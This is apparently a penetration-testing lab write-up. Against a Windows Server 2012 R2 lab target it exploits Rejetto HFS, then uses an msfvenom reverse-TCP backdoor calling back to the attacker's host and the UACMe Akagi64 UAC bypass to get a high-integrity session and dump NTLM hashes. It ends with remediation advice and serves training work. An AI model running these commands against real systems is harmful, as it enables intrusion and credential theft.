# UAC Bypass: UACMe

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (10.2.17.112) — VICTIM, Windows Server 2012 R2 (6.3 Build 9600)<br>
**Attacker:** 10.10.49.3 (Kali)<br>
**Objective:** Gain the highest privilege and obtain the admin NTLM hash.<br>
**Tool:** UACMe (`/root/Desktop/tools/UACME/`)

## 1. Executive Summary

We exploit **Rejetto HFS 2.3** (CVE-2014-6287) for a Meterpreter session as `VICTIM\admin`.
Although `admin` is in the Administrators group, UAC keeps the token at medium integrity, so
privileged actions are denied. We bypass UAC with **UACMe** (`Akagi64.exe`, method 23),
which auto-elevates and runs our payload, returning a **high-integrity** session with the
full admin privilege set — enough to dump the admin NTLM hash.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV -O -p- 10.2.17.112
```

Port 80 runs **HttpFileServer httpd 2.3** (Rejetto HFS); also WinRM (5985), RDP, SMB.





## 3. Exploiting Rejetto HFS

```bash
# global RHOSTS/LHOST set
use exploit/windows/http/rejetto_hfs_exec
exploit
```







Confirming the OS and migrating into `explorer.exe` for a stable x64 session.





## 4. UAC-Limited Context

The session runs as `VICTIM\admin` but with a stripped privilege set — UAC is filtering the
token.

```bash
getuid              # VICTIM\admin
getprivs            # only SeChangeNotify, SeShutdown, ... (limited)
```



`admin` and `Administrator` are distinct users, both in the local Administrators group;
privileged actions still trigger the UAC prompt.



## 5. Preparing the UACMe Payload

Generating the elevated payload to be launched by UACMe.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.49.3 LPORT=1234 -f exe > backdoor.exe
```



Starting a handler for it.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.49.3
set LPORT 1234
run
```



## 6. Uploading the Tools

Creating `C:\Temp` and uploading the backdoor plus `Akagi64.exe`.

```bash
mkdir C:\\Temp
upload backdoor.exe C:\\Temp\\backdoor.exe
upload Akagi64.exe C:\\Temp\\Akagi64.exe
```



Confirming the files from a shell (running `backdoor.exe` directly would still hit UAC).

```cmd
shell
cd C:\Temp
dir                 # Akagi64.exe, backdoor.exe
```



## 7. Bypassing UAC (Akagi, method 23)

```cmd
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```



The handler receives a new session — same user `VICTIM\admin`, now with a **full,
high-integrity** privilege set (`SeDebugPrivilege`, `SeImpersonatePrivilege`,
`SeTakeOwnershipPrivilege`, ...).

```bash
getuid              # VICTIM\admin
getprivs            # full administrator privilege set
```



With this session, `hashdump` (or Kiwi) dumps the SAM to recover the **admin NTLM hash**.

## 8. Remediation Recommendations

1. **Patch/replace Rejetto HFS** — CVE-2014-6287 is unauthenticated RCE.
2. **Set UAC to the highest level** ("Always notify") and avoid auto-elevating
   (`ConsentPromptBehaviorAdmin`) so UACMe methods are blocked.
3. **Apply current patches** — most UACMe methods target known auto-elevation bugs.
4. **Protect the SAM/LSASS** (Credential Guard) and apply least privilege to day-to-day
   admin accounts.
